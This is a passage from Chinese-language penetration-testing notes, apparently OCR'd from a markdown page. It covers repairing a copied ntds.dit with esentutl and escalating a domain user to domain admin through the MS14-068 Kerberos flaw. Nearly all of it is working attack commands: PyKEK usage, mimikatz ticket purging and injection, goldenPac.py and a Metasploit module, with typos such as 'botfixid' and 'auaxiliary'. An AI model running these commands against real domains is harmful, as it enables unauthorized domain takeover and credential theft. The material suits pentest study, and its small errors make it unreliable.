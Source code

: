 ```

esentutl /p /o ntds.dit 修复复制出来的ntds.dit

vshadows.exe 
```

### Kerberos域用户提权

#### PyKEK工具包
- 下载地址

```
https://github.com/mubix/pykek
```
- 工具

```
-u 用户名@域名
-s <sid> 用户sid
-d 域控制器地址
-p 明文密码
--rc4 在没明文密码情况下，通过NTLM Hash登陆
```

- 使用

```
wmic qfe get botfixid 查看补丁情况
whoami /user 查看用户SID
wmic useraccount get name,sid 获取域内所有用户的SID

ms14-068.exe -u 域成员名@域名 -s SID -d 域控制器地址 -p 域成员密码

清除票据
kerberos::purge

kerberos::ptc "TGT_user1@pentest.com.cache" 注入票据
```

#### goldenPac.py

- 命令格式

```
python goldenPac.py 域名/域成员用户:密码@域控制器地址
```
- 安装kerberos客户端

```
apt-get install krb5-user y
```
#### Metasploit

- 利用脚本

```
use auaxiliary/admin/kerberos/ms14_068_kerberos_checksum
```
- 格式转换，导出kirbi格式文件
